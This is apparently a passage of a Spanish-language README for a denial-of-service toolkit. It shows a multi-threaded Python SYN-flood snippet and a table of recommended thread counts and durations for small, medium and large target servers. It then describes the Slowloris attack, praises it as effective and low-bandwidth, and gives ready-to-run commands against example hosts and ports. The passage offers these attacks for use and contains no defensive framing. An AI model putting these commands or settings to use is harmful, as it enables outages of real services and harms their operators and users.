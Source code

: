 ```python

# Ataque multi-thread
def syn_attack():
    for i in range(1000):
        try:
            syn.send_syn_packet_simple()
        except Exception as e:
            print(f"[-] Error: {e}")

threads = []
for i in range(50):
    t = threading.Thread(target=syn_attack)
    threads.append(t)
    t.start()

for t in threads:
    t.join()
```

### Parámetros Recomendados

| Objetivo | Threads | Duración | Puerto |
|----------|---------|----------|--------|
| Servidor pequeño | 100-200 | 60-120s | 443 |
| Servidor mediano | 200-500 | 120-300s | 80/443 |
| Servidor grande | 500-2000 | 300-600s | 80/443/22 |

---

## Slowloris

### Descripción
Mantiene conexiones HTTP abiertas indefinidamente, agotando los recursos del servidor.

### Ventajas
- No requiere permisos especiales
- Muy efectivo contra servidores con límite de conexiones
- Bajo consumo de ancho de banda

### Uso Directo

```bash
# Slowloris básico
python python/attacks.py --attack slowloris --target 192.168.1.1 --port 80 --threads 30 --duration 300

# Slowloris intenso
python python/attacks.py --attack slowloris --target example.com --port 8080 --threads 100 --duration 600

# Slowloris contra servidor Apache
python python/attacks.py --attack slowloris --target 10.0.0.1 --port 80 --threads 50 --duration 900
```
